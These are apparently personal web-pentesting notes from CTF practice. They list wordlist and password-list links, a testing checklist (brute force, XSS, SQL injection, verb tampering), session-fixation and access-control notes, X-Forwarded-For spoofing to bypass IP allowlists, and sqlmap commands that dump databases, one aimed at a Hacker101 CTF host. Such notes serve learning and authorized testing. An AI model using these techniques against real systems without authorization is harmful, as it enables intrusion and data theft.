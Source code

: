 

	

Famous word dict
https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/combined_words.txt
https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10k-most-common.txt?source=post_page-----8001ba11ed9c--------------------------------



While doing file traversing check if the localhost is also getting mapped
?page=http://localhost/index
ref: Cody’s First Blog CTF

###
 find different endpoints
 attack bruteforce on form
 check xss
 check sql injection
 change verb to see if some other methods are exposed (GET, POST, PUT, DELETE)
	for POST FORMS: Content-Type: application/x-www-form-urlencoded
	make sure there is enter at the end of encoding
 check subdomain if present while doing burp proxy and browsing and not present in subdomain enumeration, this could lead to very standout subdomain


### Session token in URL
- If sensitive information is present in URL param, then attacker can get it using refere method
- Session Hijacking ???
- Session fixation: creating the session and then making the user associate this session with his authentication. This happens generally when webapp does not invalidate the existing session while giving associating new session.


### PII (Personal Identifiable Information)
- When user is able to send the request to get/change the data of other user
- It is because of lack of access control on the specific endpoint

when request is allowed for only few IPs and blocker for other, hence use some header
`X-Forwarded-For: IP`

TO READ: 
https://securityidiots.com/

## SQL Injection
```
sqlmap "http://example.com/page.php?id=1" --dbs # enumerate databases
sqlmap -u "http://example.com/page.php?id=1" --D <DB-NAME> --tables # iterate tables names
sqlmap -u "http://example.com/page.php?id=1" --D <DB-NAME> --dump # iterate tables names
sqlmap -u https://2bc4eae9ce149b2c788ef88e1ea52093.ctf.hacker101.com/login  --method POST --data "username=FUZZ&password=" -p username --dbs --dbms mysql --regexp "Invalid password" --level 2 --dump --random-agent

```
cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
- Different comment at different databases, `--` or `#`
